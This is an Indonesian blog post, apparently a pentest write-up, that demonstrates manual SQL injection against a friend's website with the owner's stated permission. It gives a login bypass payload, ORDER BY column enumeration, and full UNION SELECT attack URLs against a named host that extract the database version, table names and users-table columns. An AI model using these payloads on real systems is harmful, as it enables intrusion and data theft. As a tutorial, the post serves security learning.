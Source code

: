 ```yaml
---
layout: post
title: SQL Injection Manual
date: 2023-01-02
categories: ["Pentest","Website"]
---
```


Assalamualaikum wr,wb. Pada kesempatan kali ini saya akan mencoba melakukan SQL Injection pada website teman saya mas [Nikko Enggaliano](https://nikkoenggaliano.my.id) terima kasih telah memberikan saya kesempatan untuk mempraktekan SQLI pada websitenya,

Ketika saya mengakses website nya, saya disuguhkan login page seperti berikut : <br><br>
![01](/assets/sqli/1.png?raw=true) <br><br>

pertama kali yang saya lakukan adalah mengecek apakah form tersebut vuln terhadap sql injection, dengan cara saya mengisi form username dengan petik(') dan hasilnya website malah menunjukan error 500 <br><br>
![02](/assets/sqli/2.png?raw=true) <br><br>

selanjutnya saya coba isi form username dengan mengisi <strong>1-- #</strong>, dan saya mendapatkan error seperti ini <br><br>

![03](/assets/sqli/03.png?raw=true) <br><br> yang menurut saya, sepertinya ini termasuk vuln terhadap sql injection XD, selanjutnya saya berasumsi bahwa query dari sql untuk login tersebut adalah seperti ini : <br>

```sql
SELECT * FROM users WHERE username='$username' AND password='$password'
```
selanjutnya saya mencoba menginputkan di form username **a' OR 1=1 --** yang dimana untuk mengontrol query, dimana query sql tersebut akan menjadi seperti ini : <br>



```sql
SELECT * FROM users WHERE username='a' OR 1=1 -- ' AND password='$password'
```

![3](/assets/sqli/3.png?raw=true)

dan akhirnya saya bisa masuk ke halaman index <br> <br>
![4](/assets/sqli/4.png?raw=true) <br><br>

setelah masuk ke halaman index saya melanjutkan explore ke halaman profile, setelah saya masuk ke halaman profile, saya melihat bentuk url nya seperti berikut <br><br>
![5](/assets/sqli/5.png?raw=true) <br><br>

Setelah itu saya melakukan pengecekan lagi, apakah vuln terhadap sql injection dengan memberikan petik di akhir url, dan saya mendapat error seperti ini <br><br>
![6](/assets/sqli/6.png?raw=true) <br><br>

Saya cek lagi dengan menambahkan --, dan hasilnya juga tetap error 500 <br><br>
![7](/assets/sqli/7.png?raw=true) <br><br>

Saya cek lagi dengan menambahkan -- #, dan hasilnya website berjalan dengan baik <br><br>
![8](/assets/sqli/8.png?raw=true) <br><br>

Setelah itu saya mencoba mengecek jumlah kolom dengan menggunakan order by <br><br>

Yang pertama saya melakukan order by 100 --, dan hasilnya error <br><br>
![9](/assets/sqli/9.png?raw=true) <br><br>

Selanjutnya saya melakukan order by 20 --, dan hasilnya juga error <br><br>
![10](/assets/sqli/10.png?raw=true) <br><br>

Selanjutnya saya melakukan order by 10 --, dan hasilnya juga error <br><br>
![11](/assets/sqli/11.png?raw=true) <br><br>

Selanjutnya saya melakukan order by 5 --, dan hasilnya website berjalan normal, disini saya mengetahui bahwa kolom nya berjumlah 5 <br><br>
![12](/assets/sqli/12.png?raw=true) <br><br>

Setelah itu saya melakukan perintah UNION SELECT untuk menampilkan kolomnya, dengan memodifikasi url nya seperti berikut
```
http://nikkoenggaliano.my.id:6611/profil.php?id=1%27%20UNION%20SELECT%20NULL,NULL,NULL,NULL,NULL%20--%20#
```
![13](/assets/sqli/13.png?raw=true) <br><br>

Selanjutnya saya melakukan perintah UNION SELECT untuk menampilkan nama database dan versi dari database, dengan memodifikasi url nya seperti berikut
```
http://nikkoenggaliano.my.id:6611/profil.php?id=1%27%20UNION%20SELECT%20NULL,database(),version(),NULL,NULL%20--%20#
```
![14](/assets/sqli/14.png?raw=true) <br><br>

Selanjutnya saya melakukan dump daftar tabelnya, dengan memodifikasi url nya seperti berikut
```
http://nikkoenggaliano.my.id:6611/profil.php?id=1%27%20UNION%20SELECT%20NULL,database(),version(),table_name,NULL%20%20FROM%20information_schema.tables%20--%20#
```
![15](/assets/sqli/15.png?raw=true) <br><br>

Selanjutnya saya melakukan dump isi tabel users, dengan memodifikasi url nya seperti berikut
```
http://nikkoenggaliano.my.id:6611/profil.php?id=1%27%20UNION%20SELECT%20NULL,database(),version(),column_name,NULL%20%20FROM%20information_schema.columns%20WHERE%20table_name=%27users%27%20--%20#
```
![16](/assets/sqli/17.png?raw=true) <br><br>

Setelah saya dump isi tabelnya selanjtunya saya dump isi kolomnya, dengan memodifikasi url nya seperti berikut
```
http://nikkoenggaliano.my.id:6611/profil.php?id=1%27%20UNION%20SELECT%20NULL,database(),version(),column_name,NULL%20%20FROM%20information_schema.columns%20WHERE%20table_name=%27users%27%20--%20#
```
![18](/assets/sqli/18.png?raw=true) <br><br>

Sekian tulisan saya terkait praktek sql injection manual, jika ada kekurangan saya mohon maaf dan terima kasih, Assalamualaikum wr,wb.